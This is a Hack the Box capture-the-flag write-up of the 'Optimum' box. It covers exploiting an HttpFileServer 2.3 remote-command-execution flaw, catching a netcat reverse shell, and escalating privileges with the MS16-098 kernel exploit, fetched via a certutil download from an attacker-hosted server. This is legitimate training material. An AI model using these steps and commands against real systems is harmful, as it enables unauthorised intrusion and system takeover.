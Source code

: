 ```yaml
---
title: Optimum
date: 2021-01-25
excerpt: "'Optimum' is an easy rated box on Hack the Box. We'll exploit a vulnerable version of HttpFileServer for access and use Windows Exploit Suggester to find a kernel exploit for privesc"
classes: wide
categories: HackTheBox
tags:
  - htb
  - windows
  - HttpFileServer
  - windows_exploit_suggester
  - kernel
---
```



![img](/assets/images/htb/optimum/0.png)

### Port Scanning and General Enumeration (Nmap)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)

Initial scan showed that only port 80 (HTTP) is available


![img](/assets/images/htb/optimum/1.png)


![img](/assets/images/htb/optimum/2.png)

Clicking the link takes us to www.rejetto.com

**What we know:**
- It's running HttpFileServer 2.3
- The vendor is rejetto

---

### Access (searchsploit, Rejetto HFS RCE)
* Reading/Resources
  * [searchsploit](https://www.exploit-db.com/searchsploit)
  * [RCE](https://www.exploit-db.com/exploits/39161)

Let's see if there's anything on **searchsploit** for `rejetto` or `http file server 2.3`

`searchsploit rejetto`


![img](/assets/images/htb/optimum/3.png)

Let's grab `Remote Command Execution (2)`

`searchsploit -m 39161.py`

`-m` allows us to copy the exploit into our current working directory.

Let's read a bit about what it does

https://www.exploit-db.com/exploits/39161

```
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!
```

So we need to be hosting `nc.exe` on port `80`. That's easy enough. On kali, windows binaries are stored at `/usr/share/windows-binaries`


![img](/assets/images/htb/optimum/4.png)

Now we're going to need a few tabs: 
- On one, our python server (`python3 -m http.server 80`) where `nc.exe` is located
- On another, a listener waiting to catch our shell (`nc -lvnp 4444`)
- And finally, one to fire the exploit

This is what mine looked like after the exploit completed:


![img](/assets/images/htb/optimum/5.png)


![img](/assets/images/htb/optimum/6.png)


---

### Privesc (Windows Exploit Suggester, MS16-098)
* Reading/Resources
  * [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
  * [MS16-098](https://www.exploit-db.com/exploits/41020)

I ran `winPEAS` on the machine but didn't come back with much so I assume that maybe we're looking at a kernel exploit. Let's try **Windows Exploit Suggester**

Note: for **Windows Exploit Suggester** to work we need to install a specific version of `xlrd`:

`pip2 install --user xlrd==1.1.0`

There's a couple things we need to do before we can run this. 

- First, run it with the `--update` switch. That will write an `xls` file for us to use.
- Second, on the victim machine, use the command `systeminfo` and copy all of the output and save it to a file. I'll name my `systeminfo.txt`
- Now run it:

`python windows-exploit-suggester.py -database 2021-01-25-mssb.xls -systeminfo systeminfo.txt`


![img](/assets/images/htb/optimum/7.png)

Let's look at [MS16-098](https://www.exploit-db.com/exploits/41020). There's a precompiled binary for us to grab on the github page. Let's grab that and transfer it over to the victim machine.

`certutil -urlcache -f Http://10.10.14.18:8000/ms16098.exe ms16098.exe`


![img](/assets/images/htb/optimum/8.png)

Give it a run!


![img](/assets/images/htb/optimum/9.png)


![img](/assets/images/htb/optimum/10.png)
